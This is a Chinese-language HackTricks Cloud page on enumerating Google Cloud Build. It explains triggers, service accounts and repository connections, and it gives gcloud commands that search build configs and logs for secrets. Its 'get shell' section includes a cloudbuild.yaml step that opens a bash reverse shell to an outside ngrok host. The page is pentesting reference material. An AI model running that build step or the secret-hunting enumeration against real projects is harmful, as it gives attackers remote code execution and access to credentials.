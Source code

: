 # GCP - Cloud Build Enum

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，并支持多种编程语言。它允许开发人员**自动构建、测试和部署代码**，同时提供灵活性来定制构建步骤和工作流程。

每个Cloud Build触发器都与一个Cloud仓库相关联，或直接连接到外部仓库（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有看到从这里或Cloud仓库中窃取Github/Bitbucket令牌的方法，因为当仓库被下载时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，而Github不是由客户端访问的。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

- **推送到分支**：指定分支
- **推送新标签**：指定标签
- **拉取请求**：指定接收PR的分支
- **手动调用**
- **Pub/Sub消息**：指定主题
- **Webhook事件**：将公开一个HTTPS URL，请求必须使用密钥进行身份验证

### 执行

有3个选项：

- 一个yaml/json，**指定要执行的命令**。通常为：`/cloudbuild.yaml`
- 只能在Web控制台和cli中“内联”指定的一个
- 最常见的选项
- 适用于未经身份验证的访问
- 一个**Dockerfile**进行构建
- 一个**Buildpack**进行构建

### SA权限

**服务账号具有`cloud-platform`范围**，因此可以**使用所有特权**。如果**未指定SA**（例如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不会授予任何权限，但很容易给予一些权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 批准

可以配置Cloud Build以**要求批准构建执行**（默认情况下已禁用）。

### 连接和仓库

可以通过以下方式创建连接：

- **GitHub：**它将显示一个OAuth提示，请求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**中。
- **GitHub企业版：**它将要求安装**GithubApp**。将创建并存储来自您的GitHub企业主机的**身份验证令牌**，作为**Secret Manager**的秘密。
- **GitLab / 企业版：**您需要提供**API访问令牌和读API访问令牌**，这将存储在**Secret Manager**中。

生成连接后，您可以使用它来**链接Github账户有权限访问的仓库**。

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，通过此方法连接的仓库**仅在使用第二代触发器时可用**。
{% endhint %}

### 连接仓库

这与**`连接`**不同。这允许以**不同**方式访问**Github或Bitbucket**仓库，但**不会生成连接对象，但会生成一个仓库对象（第一代）。**

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成一个新的存储空间来存储触发器的文件**。例如，在GCP提供的示例中发生了这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
一个名为 [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) 的存储桶被创建用于存储一个包含要使用的文件的 `.tgz` 文件。

### 获取 shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可以在构建配置和日志中找到敏感信息。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 提权

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经身份验证的访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 漏洞利用后期阶段

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
